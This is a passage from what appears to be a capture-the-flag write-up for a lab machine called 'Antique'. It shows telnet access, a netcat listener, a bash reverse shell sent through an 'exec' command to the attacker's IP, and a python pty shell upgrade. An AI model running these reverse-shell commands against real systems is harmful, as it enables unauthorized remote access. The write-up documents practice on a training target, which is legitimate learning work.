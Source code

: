 
We get logged in and can send `?` to list commands.

![telnet_login](assets/antique_screenshots/telnet_login.png)

The `exec` command looks good, let's try and get a reverse shell.

We'll set up a netcat listener on our attacker.

```bash
nc -lvnp 9001
```

Then in the telnet session, we'll use `exec` to call a bash reverse shell

```bash
> exec /bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.54/9001 0>&1"
```

And we catch the reverse shell on our netcat listener. The box has python3, so we can use the python pty trick to upgrade our shell.

```bash
Connection from 10.129.95.245:48196
bash: cannot set terminal process group (859): Inappropriate ioctl for device
bash: no job control in this shell
lp@antique:~$
lp@antique:~$ which python
which python
lp@antique:~$ which python3
which python3
/usr/bin/python3
lp@antique:~$ python3 -c "import pty;pty.spawn('/bin/bash')"
python3 -c "import pty;pty.spawn('/bin/bash')"
lp@antique:~$ ^Z
[1]  + 20817 suspended  nc -lvnp 9001
tuz@hackbox [148] % stty raw -echo; fg
```
